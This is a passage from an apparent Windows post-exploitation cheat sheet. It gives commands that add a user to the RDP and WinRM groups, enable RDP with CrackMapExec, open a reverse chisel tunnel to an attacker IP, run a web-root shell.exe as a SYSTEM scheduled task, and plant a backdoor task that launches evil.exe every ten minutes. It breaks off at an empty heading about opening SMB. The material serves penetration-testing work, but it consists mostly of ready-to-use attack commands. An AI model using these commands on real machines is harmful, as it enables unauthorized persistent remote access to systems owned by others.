 ## Add RDP / WinRM groups to log in

{% code overflow="wrap" %}
```c
cmd.exe /c net localgroup "Remote Desktop Users" test123 /add && net localgroup "Remote Management Users" test123 /add
```
{% endcode %}

## Enable RDP access

```bash
# ADMINISTRATOR NEEDED
cme smb/winrm $IP -u $USER -p $PASS -M rdp -o action=enable
# Scan with nmap port 3389 to see if it is open
nmap -p 3389 $IP 
# If not, check if RDP port is present on the target
PS> netstat -nat | findstr 3389
# If it is open externally, we need (reverse) port forwarding with chisel for example
LINUX> ./chisel server -p 1234 --reverse
WINDOWS> chisel.exe client $ATTACKING_IP:1234 R:3389:127.0.0.1:3389
# To confirm it is working
nmap -p 3389 127.0.0.1
```

## Create scheduled task

{% code overflow="wrap" fullWidth="true" %}
```powershell
# Create a scheduled task to run as SYSTEM by providing Administrator credentials:
PS > $pw = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
PS > $creds = New-Object System.Management.Automation.PSCredential ("Administrator", $pw)

PS > Invoke-Command -Computer $LDAP_COMMON_NAME -ScriptBlock { schtasks /create /sc onstart /tn shell /tr C:\inetpub\wwwroot\shell.exe /ru SYSTEM } -Credential $creds
SUCCESS: The scheduled task "shell" has successfully been created.
PS > Invoke-Command -Computer $LDAP_COMMON_NAME -ScriptBlock { schtasks /run /tn shell } -Credential $creds
SUCCESS: Attempted to run the scheduled task "shell".
```
{% endcode %}

## Persistent Backdoors

```bash
# Launch evil.exe every 10 minutes
schtasks /create /sc minute /mo 10 /tn "TaskName" /tr C:\Windows\system32\evil.exe
```

## Open SMB to the outside
